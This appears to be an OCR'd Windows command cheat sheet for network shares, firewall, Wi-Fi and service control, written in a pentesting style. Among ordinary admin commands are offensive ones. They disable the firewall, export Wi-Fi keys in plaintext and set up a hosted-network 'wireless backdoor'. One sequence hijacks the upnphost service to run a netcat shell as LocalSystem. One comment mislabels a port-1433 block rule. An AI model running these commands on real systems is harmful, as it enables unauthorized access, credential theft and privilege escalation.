 ```bat
net use \\computer\share
    -mount an smb share
net use X: \\10.2.2.224\C$
net use * http//hostname/nfs/ pword /USER:username
net share name=c:\path\to\share
    -create smb share
net share name=c:\path\to\share /GRANT:Everyone,FULL
    -make an smb share world-accessable
pushd \\10.2.2.224\C$
    -mount remote file share to automatically mapped drive
cacls c:\path\ /T /E /G user:f
    -grant user full file access control from path
tasklist /V /S computername
    Lists tasks w/users running those tasks on a remote system
netsh firewall show state
netsh firewall show config
netsh firewall set opmode disable
netsh advfirewall firewall set rule group="windows management instrumentation (wmi)" new enable=yes
    -enable remote wmi
netsh interface ip set address local dhcp
    -configure nic to user dhcp
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
    -open port (for rdesktop)
netsh advfirewall firewall add rule name="Block mssql attack ips" dir=in action=block protocol=TCP localport=1433 remoteip=22.75.175.213
    -close port (for rdesktop)
netsh advfirewall set allprofiles state off
netsh wlan show profiles
    -shows all saved wireless profiles
netsh wlan export profile folder=. key=clear
    exports a user wifi profile with the password in plaintext to an xml file in the current working directory
netsh wlan [start|stop] hostednetwork
    Starts or stops a wireless backdoor on a windows 7 pc
netsh wlan set hostednetwork ssid=<ssid> key=<passphrase> keyUsage=persistent|temporary
    Complete hosted network setup for creating a wireless backdoor on win 7
netsh wlan set hostednetwork mode=[allow|disallow]
netdom query trust /Domain:dnsname
    OR
nltest /domain_trusts /All_Trusts
 
 
 
SERVICES/PROCESSES/PERMISSIONS && configuration
tasklist
tasklist /SVC
taskkill <pid>
net start
    -list all running services
sc [stop|start] service
sc qc service
    -view configuration of a service
    ->sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    ->sc config upnphost obj= ".\LocalSystem" password= ""
    ->net start upnphost
sc query
sc queryex
schtasks /query /fo LIST /v
net start RpcSs
net stop RpcSs
    -start stop rpc service on localhost
c:\windows\system32\gathernetworkinfo.vbs
```
